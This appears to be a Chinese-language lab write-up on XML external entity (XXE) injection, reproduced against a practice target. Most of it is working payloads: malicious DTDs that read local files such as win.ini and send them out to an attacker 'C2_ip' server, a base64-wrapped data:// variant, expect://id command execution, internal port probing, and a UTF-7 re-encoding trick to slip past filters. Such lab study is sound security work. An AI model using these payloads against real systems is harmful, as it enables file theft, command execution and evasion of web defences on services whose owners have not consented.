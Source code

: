 ## 概述

xxe漏洞主要针对webservice危险的引用的外部实体并且未对外部实体进行敏感字符的过滤，从而可以造成**命令执行，目录遍历，文件读取，探测内网端口，ddos**等．首先存在漏洞的web服务一定是存在xml传输数据的，可以在http头的content-type中查看，也可以根据url一些常见的关键字进行判断测试，例如wsdl（web服务描述语言）。或者一些常见的采用xml的java服务配置文件（spring，struts2）。

## 靶场

https://github.com/c0ny1/xxe-lab

使用的php靶场；windows环境。

## 复现

**现实中存在的大多数xxe漏洞都是blind，即不可见的，必须采用带外通道进行返回信息的记录，这里简单来说就是攻击者必须具有一台具有公网ip的主机。**

A blind XXE injection callback handler. Uses HTTP and FTP to extract information:

https://github.com/TheTwitchy/xxer

启动 ftp 和 web 服务器用于作为监听 server：

![](1.jpg)

vim attack.dtd:

	<!ENTITY % all
	        "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>"
	>
	%all

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE ANY [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % xxe2 SYSTEM "http://C2_ip:2333/attack.dtd">
	%xxe2;
	%send;
	]>
	<user><username></username><password></password></user>

通过 %xxe2; 和 %send; 调用执行。 

![](3.png)

![](2.png)

将传输的内容base64还原。

### 外带数据方法二

vim attack.dtd:

	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/Windows/win.ini">
	<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://C2_ip:2333/?%file;'>">

![](5.png)

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[
	<!ENTITY % dtd SYSTEM "http://C2_ip:2333/attack.dtd"> 
	%dtd;%int;%send;>
	]>

![](6.png)

#### php://filter

1. 编码写入

	index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm

2.  编码读取

	index.php?file1=php://filter/read=convert.base64-encode/resource=file.txt


**PS:**

1.如果直接使用%号的话，会出现下面的报错

```DOMDocument::loadXML(): Entity Value: ‘%’ forbidden except for entities```

**报错已经说的很清楚，%不允许出现在Entity的value中，所以需要将%进行Unicode编码为 &#37; 或者 &#x25;(转化成Unicode编码有两种形式，以&#后接十进制数字，&#x后接十六进制数字)**

2.php://filter，没直接使用 file:///etc/passwd

因为字符的原因，虽然没有在xml中加特殊字符，但是关于字符，有可见字符，也有不可见字符，所以这种情况，需要十六进制（xxd或者hexdump -C）显示一下是否有系统自己添加的特殊字符，就像echo "hello" > joker，echo命令本身就是回车显示，所以看似没有问题的URL，其实有一个小小的回车(0a)存在，导致保存，无法识别file读取的url路径。所以目前最好的方法就是利用php://filter流来读取文件。

## 扩展

XML在各语言下支持的协议有:

![](4.png)


### data 协议

payload:

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE root[ <!ENTITY % xxe SYSTEM "data://text/plain;base64,PCFFTlRJVFkgJSBkdGQgU1lTVEVNICdodHRwOi8vMTE0LjExNi4yNTMuMTQ4OjIzMzMvMDEuZHRkJz4="> 
	%xxe;
	%dtd;%int;%send;
	]>

base64 解码后为：

	<!ENTITY % dtd SYSTEM 'http://c2_ip:2333/01.dtd'>

### 命令执行及探测内网端口

https://www.cnblogs.com/linuxsec/articles/11666923.html

	<?xml version="1.0"?>
	    <!DOCTYPE Quan[
	    <!ENTITY f SYSTEM "expect://id">
	]>
	
	<hhh>&f;<hhh>

	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE note[
	    <!ENTITY Quan SYSTEM "http://192.168.246.136:80">
	]>
	
	<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>

类似于 jackson/fastjson 攻击。 

### XXE DOS

https://en.wikipedia.org/wiki/Billion_laughs_attack

实际效果未验证。



## 检测绕过

### utf7编码绕过

![](7.png)

将打算使用utf-7编码的payload 复制到 a.xml 中，

![](8.png)

安装linux编码转换工具 recode:

	yum install recode -y

将 utf-8 转换为 utf-7:

	recode UTF8..UTF7 a.xml

转换成功！

![](9.png)

将转换好的payload复制，并添加 utf-7 头，```<?xml version="1.0" encoding="UTF-7"?>```，成功外带数据！

	<?xml version="1.0" encoding="UTF-7"?>
	+ADwAIQ-DOCTYPE root+AFs +ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://c2_ip:2333/01.dtd+ACIAPg 
	+ACU-dtd+ADsAJQ-int+ADsAJQ-send+ADsAPg
	+AF0APg-

![](10.png)

## 参考资料

[XML中关于DTD类型（内部（SYSTEM）的和外部（PUBLIC）的区别）](https://www.cnblogs.com/happyting/archive/2010/05/07/1729999.html)

[java环境下利用blind xxe来列目录和文件读取](http://www.voidcn.com/article/p-njawsjxm-ko.html)

[bwapp亲测xxe漏洞](https://www.cnblogs.com/bmjoker/p/9626241.html)

[Github-XML External Entity (XXE) Injection **Payload List**](https://github.com/payloadbox/xxe-injection-payload-list)

[包含gopher/jar等协议的，XML外部实体（XXE）注入详解](https://www.cnblogs.com/backlion/p/9302528.html)

[绕过WAF保护的XXE](https://xz.aliyun.com/t/4059)

[get型xxe参考-DuckDuckGo搜索引擎的XXE漏洞](https://nosec.org/home/detail/2219.html)

[JAVA常见的XXE漏洞写法和防御](https://blog.spoock.com/2018/10/23/java-xxe/)